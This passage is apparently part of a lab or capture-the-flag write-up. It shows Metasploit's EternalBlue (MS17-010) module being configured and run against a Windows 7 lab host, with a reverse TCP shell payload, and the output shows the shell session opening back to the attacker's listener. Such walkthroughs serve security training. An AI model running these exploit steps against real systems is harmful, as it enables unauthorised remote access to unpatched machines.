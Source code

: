 ```bash
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```
{% endraw %}

<br />
Set the RHOSTS because it is a require option.  Plus, the exploit will need to know it to know what to attack.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.18.22
RHOSTS => 10.10.18.22
```
{% endraw %}

<br />
Set LHOST to the IP on the tun0 interface.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => 10.4.119.29
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => 10.4.119.29
```
{% endraw %}

<br />
Set the payload to a staged, x64 shell payload.  This is for practice purposes.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/shell/reverse_tcp
PAYLOAD => windows/x64/shell/reverse_tcp
```
{% endraw %}

<br />
Use exploit to run the command.

{% raw %}
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.4.119.29:4444 
[*] 10.10.18.22:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.18.22:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)

<snip>

[*] Sending stage (336 bytes) to 10.10.18.22
[*] Command shell session 1 opened (10.4.119.29:4444 -> 10.10.18.22:49203) at 2025-01-07 01:08:27 +1100
[+] 10.10.18.22:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.18.22:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.18.22:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          
```